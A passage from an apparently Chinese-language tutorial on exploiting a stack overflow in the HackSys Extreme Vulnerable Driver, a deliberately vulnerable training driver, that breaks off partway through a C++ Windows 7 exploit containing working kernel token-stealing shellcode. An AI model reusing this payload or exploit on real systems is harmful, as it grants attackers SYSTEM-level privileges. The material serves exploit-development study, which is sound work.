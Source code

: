 在偏移2076是EBP覆盖，之后它应该包含指向shellcode函数的指针。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012bea5ccc02a1f830.png)

让我们重新组装这个指针。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01556ba64c5b1ff7bb.png)

是的，如果一切正确，它应该指向我们的shellcode函数。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019ce75a55e8703d24.png)

C++版利用代码



```
//https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowx86.cpp
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;Shlobj.h&gt;
#include &lt;string.h&gt;
/*
 * Title: HEVD x86 Stack Overflow Privelege Escalation Exploit
 * Platform: Windows 7 x86
 * Author: Osanda Malith Jayathissa (@OsandaMalith)
 * Website: https://osandamalith.com
 */
#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID
VOID TokenStealingPayloadWin7() {
    __asm {
            pushad; Save registers state
            xor eax, eax; Set ZERO
            mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
            mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process
            mov ecx, eax; Copy current process _EPROCESS structure
            mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4
        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
            sub eax, FLINK_OFFSET
            cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
            jne SearchSystemPID
            mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
            mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
            ; with SYSTEM process nt!_EPROCESS.Token
            ; End of Token Stealing Stub
            popad; Restore registers state
            ; Kernel Recovery Stub
            xor eax, eax; Set NTSTATUS SUCCEESS
            add esp, 12; Fix the stack
            pop ebp; Restore saved EBP
            ret 8; Return cleanly
    }
}
int _tmain(int argc, _TCHAR* argv[]) {
    HANDLE hDevice;
    LPCWSTR lpDeviceName = L"\\.\HacksysExtremeVulnerableDriver";
    PUCHAR lpInBuffer = NULL;
    DWORD lpBytesReturned = 0;
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    hDevice = CreateFile(
        lpDeviceName,
```